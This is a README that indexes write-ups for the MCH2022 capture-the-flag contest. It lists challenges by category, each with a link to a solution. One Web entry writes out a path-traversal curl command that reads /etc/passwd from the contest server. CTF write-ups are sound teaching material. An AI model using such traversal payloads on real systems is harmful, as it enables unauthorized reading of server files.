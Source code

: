 # MCH2022-CTF

Final Scoreboard https://github.com/craig/MCH2022-CTF/blob/main/scoreboard.png

Some writeups: https://watchdog.notion.site/MCH-CTF-May-Contain-Hackers-2b36d2a891ed441abadd75b9d2ef3ec9

## Crypto
Crypto Machine: https://www.youtube.com/watch?v=BjkOwSQ3wk8

qEXMRY^7: https://imp.ress.me/blog/2022-07-26/mch-2022-crypto/#qexmry-7

Squaring Off: https://imp.ress.me/blog/2022-07-26/mch-2022-crypto/#squaring-off & https://duksctf.github.io/2022/07/25/MCH22-squaringoff.html

Sharing is Caring: https://imp.ress.me/blog/2022-07-26/mch-2022-crypto/#sharing-is-caring

Smartblockchain: https://flag-poisoning.fr/writeup/smartblockchain-mch-2022/

Curvy: https://github.com/craig/MCH2022-CTF/blob/main/curvy-p.py (incomplete; only part 1, binary search for p)

Crypto machine 02: https://github.com/craig/MCH2022-CTF/blob/main/crypto_machine_02.txt

## Pwnable

HipsterProgramming: https://github.com/craig/MCH2022-CTF/blob/main/HipsterProgramming.txt 

rockpaperlizardspock: https://github.com/craig/MCH2022-CTF/blob/main/rockpaperlizardspock.txt

pwn me if you can (badge challenge): https://twitter.com/__spq__/status/1552386564759687175 (not a complete writeup)

## Forensics

Screensaver: https://github.com/craig/MCH2022-CTF/blob/main/screensaver.txt

Encrypted USB: https://github.com/craig/MCH2022-CTF/blob/main/encrypted_usb.txt

North Korean Needle: https://github.com/craig/MCH2022-CTF/blob/main/north_korean_needle.txt

Extensions: https://www.youtube.com/watch?v=kHwdguVWJJE

## Web

Coinflip: https://gist.github.com/betrisey/45882ce20c743c8e2fadff88899030e1

Coinflip: https://github.com/craig/MCH2022-CTF/blob/main/coinflip.sh

Secure Router: https://github.com/craig/MCH2022-CTF/blob/main/secure_router.txt

Captcha: https://github.com/craig/MCH2022-CTF/blob/main/captcha.txt

Cat Lovers: simple LFI, curl https://catlovers.ctf.zone/image.php?file=../../../../etc/passwd | grep catlover | cut -d: -f5

## Network

For starters: https://www.youtube.com/shorts/58NhToPKro8

## Misc

Rogue Wifi: https://github.com/craig/MCH2022-CTF/blob/main/rogue_wifi.txt

Access Control 1: https://github.com/craig/MCH2022-CTF/blob/main/accesscontrol1.txt

Access Control 2: https://github.com/craig/MCH2022-CTF/blob/main/accesscontrol2.txt

Locked Locks 1: A lock in a white case, needs lockpicking.

Locked Locks 2: A lock in a black case, needs lockpicking and is hard, due to a security pin.

Lost Combination: A simple shimming challenge. https://en.wikipedia.org/wiki/Shim_(lock_pick)
